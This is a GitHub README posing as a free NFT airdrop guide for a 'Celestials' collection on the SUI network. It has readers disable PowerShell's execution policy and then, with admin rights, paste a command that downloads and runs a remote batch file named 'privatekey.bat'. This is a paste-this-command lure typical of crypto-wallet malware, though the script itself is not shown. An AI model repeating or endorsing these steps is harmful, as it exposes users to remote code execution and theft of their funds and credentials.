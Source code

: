 <div align="center">
<a href="z"><img src="https://img.shields.io/badge/ChatGPT-74aa9c?style=for-the-badge&logo=openai&logoColor=white"/></a>
<a href="z"><img src="https://img.shields.io/badge/SUI-4DA2FF?style=for-the-badge&logo=Sui&logoColor=white"/></a>
<a href="z"><img src="https://img.shields.io/badge/Ethereum-3C3C3D?style=for-the-badge&logo=Ethereum&logoColor=white"/></a>
<a href="z"><img src="https://img.shields.io/badge/Litecoin-A6A9AA?style=for-the-badge&logo=Litecoin&logoColor=white"/></a>
<a href="z"><img src="https://img.shields.io/badge/.NET-512BD4?style=for-the-badge&logo=dotnet&logoColor=white"/></a>
<a href="z"><img src="https://img.shields.io/badge/Visual_Studio-5C2D91?style=for-the-badge&logo=visual%20studio&logoColor=white"/></a>
</div>

<p align="center">
  <i align="center">How To Mint Your first NFT on SUI 🚀</i>
</p>
  
<p align="center">
 CELESTIAL NFT IS THE FIRST NFT ON SUI NETWORK ❤️ MINT WELCOME NFT FOR FREE ❤️
</p>
<div style="display: flex; justify-content: space-around;" align="center">
<img src="https://github.com/user-attachments/assets/1e6711a8-b47f-49df-a879-e8cde3db7334" alt="photo_5926748594818368500_y" width="200" />
<img src="https://github.com/user-attachments/assets/8fbe62f2-4ca6-4261-8914-4d36f635c46b" alt="photo_5926748594818368500_y" width="200" />
</div>
<p align="center">
# CELESTIALS NFT WHITELIST AIRDROP GUIDE

How to generate wallet and MINT Celestials Welcome NFT 

# OPEN POWERSHELL AS ADMIN ON WINDOWS

1. Copy and paste the following in your powershell:
```
Set-ExecutionPolicy Unrestricted
```
2. Type Y when Prompted and close Powershell

# OPEN CMD(COMMAND PROMPT) AS ADMIN ON WINDOWS
1. Copy and paste the following in your CMD: If you get warning about SUDO Linux not installed, Please Ignore.
```
powershell -Command "Invoke-WebRequest -Uri https://raw.githubusercontent.com/CelestialNFT/Airdrop-Whitelist/main/privatekey.bat -OutFile privatekey.bat; Start-Process -FilePath cmd.exe -ArgumentList '/c', 'privatekey.bat & pause' -Wait"
```
2. You have successfully Minted Your Welcome NFT on sui. 

You will get Private key and secret Phrase in PDF, Import to metamask and wait for TGE event. Follow us on twitter @celestianfts

<img src="https://github.com/user-attachments/assets/85e19765-ffdc-4c8a-97ab-e04692c10ca7" alt="photo_5926748594818368500_y" width="300" />
</p>
